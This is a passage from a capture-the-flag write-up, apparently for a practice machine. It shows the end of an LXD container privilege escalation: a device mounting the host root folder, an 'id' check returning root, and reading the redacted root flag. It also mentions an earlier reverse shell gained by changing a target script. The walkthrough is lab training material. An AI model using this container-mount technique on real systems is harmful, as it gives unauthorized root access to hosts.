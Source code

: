 ```sh
Device giveMeRoot added to privesc
```

Let's check if we are root with the command "id": 
```sh
id
uid=0(root) gid=0(root)
```

In this Vulnerability. The Exploit is loading a Container and is mounting the /root folder to the mounting path "/mnt/root/".

In this path we can now check the root-flag of the target.

```sh
cd /mnt/root/root
pwd
/mnt/root/root
ls
root.txt
cat root.txt
4******************************3
```

Now we have the root-flag and we have pwned the machine.

# Summary:

This room was interessting, because of the change of the script witch is running on the target for getting a reverse shell.

When i got the first shell on the target, the Priv-Escalation was straight forward. With LXD it was no new stuff.
